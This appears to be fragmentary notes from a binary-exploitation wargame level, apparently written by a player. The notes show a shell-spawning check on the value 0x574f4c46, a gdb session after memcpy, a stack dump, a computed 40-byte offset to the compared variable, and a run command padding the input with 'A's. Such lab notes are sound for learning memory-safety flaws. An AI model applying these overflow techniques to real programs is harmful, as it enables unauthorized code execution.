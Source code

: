 ```
if (number == 0x574f4c46) 
    execl("/bin/sh", "sh", 0);
```
```
run "8" "AAAA"

   0x08048473 <+79>:	call   0x8048320 <memcpy@plt>
=> 0x08048478 <+84>:	cmpl   $0x574f4c46,0x3c(%esp)

the return of memcpy

0xbffff6b0:	..........	0x41414141	...[1]....	...[2]....
0xbffff6c0:	...[3]....	...[4]....	...[5]....	...[6]....
0xbffff6d0:	...[7]....	...[8]....	...[9]....	0x00000008

the var we compar with located at:

(gdb) x $esp+0x3c
0xbffff6dc:	0x00000008

p/d 0xbffff6dc - 0xbffff6b4 = 40

run "9" $(python -c 'print "A" * 40')

36 is the maximum number of bytes that can be copied into the buffer (9 * 4).

 -2^31 to 2^31 – 1
 
 ```

The "memcpy" function is vulnerable to buffer overflow attacks if the size of the destination buffer is smaller than the size of the source buffer. 










